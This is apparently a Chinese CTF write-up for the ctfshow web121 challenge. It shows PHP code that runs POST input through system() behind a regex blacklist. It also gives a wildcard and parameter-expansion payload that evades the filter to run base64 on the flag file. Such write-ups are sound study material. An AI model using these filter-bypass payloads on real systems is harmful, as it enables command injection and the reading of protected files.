 在源码中找一下flag

![image-20240429110548037](image/image-20240429110548037.png)

---

#### web121

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

过滤了USER和shlvl上体的payload无法使用，pwd没有被禁

我们要想办法构建出一个1

我们可以用$?

他代表上次执行命令的结果，0为正常，1为非正常，所以我们要先让他不正常

这里我们利用base64进行读取文件，就用到了随机数${#RANDOM}构建出一个4，因为是随机数，所以要多试几次

payload

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

![image-20240429113354526](image/image-20240429113354526.png)

得到base64编码的flag

进行解码

![image-20240429113439121](image/image-20240429113439121.png)

---